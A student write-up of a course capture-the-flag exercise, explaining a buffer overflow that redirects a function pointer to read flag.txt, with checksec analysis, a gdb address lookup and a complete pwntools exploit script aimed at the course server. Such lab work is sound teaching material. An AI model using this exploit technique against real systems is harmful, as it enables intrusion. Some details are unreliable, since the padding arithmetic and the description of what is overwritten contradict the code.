 # CTF5

This document is a brief explanation of our resolution of the Wordpress CTF presented in class during week 5.

## Recognition

We start exploring the program source code and answering this questions:

- **Question1**: Is there any file that is opened and read by the program?

- **Answer**: Yes, there is a file that is opened by the program named `rules.txt`.

- **Question2**: Is there any way to control the file that is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any way to cause a buffer overflow? If yes, what do we can do with that?

- **Answer**: Yes, is possible to cause a buffer overflow because the program allocates a buffer with a size of 32 bytes, but when it reads input using `scanf`, it expects to receive a string of up to 45 characters, which corresponds to 45 bytes. Since the buffer can only hold 32 bytes, providing an input longer than this will cause the data to overflow. Knowing about this possiblity we can create a buffer overflow to redirect the pointer `fun` to the function `readtxt`.

## Searching and Analysing

First we test if the program is safe or have some types of vulnerabilities by running the command `checksec program` and this was what we obtain:

<div align="center">
    <figure>
        <img src="images/CTF5/checksec.png" width="550">
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program has some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", making it easy to attack.
 - **PIE**: Without the PIE, the program loads at fixed address every time making it predictable and easy to exploit.

The program has some other important vulnerabilities deactivated but this are the most relevant ones for our exploit to be successful.

To achieve the exploit we start by finding the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tool and find out that was address `0x80497a5`.

<div align="center">
    <figure>
        <img src="images/CTF5/readtxt_address.png" width="550">
        <figcaption style="font-size: smaller;">Figure 2: readtxt address.</figcaption>
    </figure>
</div>

We then learn that the buffer has 32 bytes of size by looking at the source code.

This is all we need to perform the exploit.

## Exploit

To carry out the exploit we create a python script where we call the program, build a payload and put the payload in the input of the program.

Here is how the payload is constructed:
- `flag\x00`:
    - The string `"flag"` is followed by a null byte (`\x00`) to end the string.
    - This ensures the `sprintf` function in `readtxt` only processes `"flag"` and ignores the padding that follows.
- `b"A" * (31 - len("flag"))`:
    - This padding fills the rest of the buffer up to 31 bytes.
    - Since `"flag\x00"` is 5 bytes (`4 + 1` for the null byte), we pad with `31 - 5 = 26` bytes of A.
- `p32(0x80497a5)`
    - The little-endian address of `readtxt`
    - This overwrites the return address, redirecting execution to `readtxt`

Payload after construction:
```python
payload = b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
```

To do this exploit we used the `pwntools` library in Python and this was the complete script we use to do this exploit:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

With this script we successfully retrieved the flag from the flag.txt file.